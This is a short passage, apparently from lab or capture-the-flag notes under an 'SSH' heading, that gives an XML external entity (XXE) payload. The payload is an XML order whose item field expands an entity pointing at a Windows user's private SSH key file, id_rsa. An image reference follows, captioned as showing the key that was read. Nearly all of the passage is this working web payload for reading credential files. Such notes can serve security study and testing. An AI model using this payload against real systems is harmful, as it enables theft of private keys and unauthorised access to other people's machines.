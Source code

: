 ### SSH
- I'm gonna put this as a payload

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/users/daniel/.ssh/id_rsa"> ]>
<order>
    <quantity>
        1
    </quantity>
    <item>
        &example;
    </item>
    <address>
        Bed for sleeping of course
    </address>
</order>
```

- the result

![xxe read ssh key](ssh-prikey.png "xxe read ssh key")
